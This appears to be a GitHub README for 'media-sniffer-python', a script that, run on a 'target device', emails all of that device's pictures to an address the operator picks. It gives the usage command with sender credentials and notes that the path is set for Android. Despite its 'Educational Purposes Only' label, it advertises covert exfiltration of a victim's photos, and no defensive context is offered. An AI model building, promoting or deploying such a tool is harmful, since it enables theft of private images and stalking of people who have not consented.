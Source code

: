 # media-sniffer-python
## Educational Purposes Only

This script sends all the pics to your desired email address from target device.
But you need to execute it in target device.

To run it for test purpose

```
python main.py sender@mail sender_password receiver@mail
```
Check receiver's mail inbox. If not found please check the spam folder also.

I have put the path for Android devices. Change the value of PATH variable as your target OS.
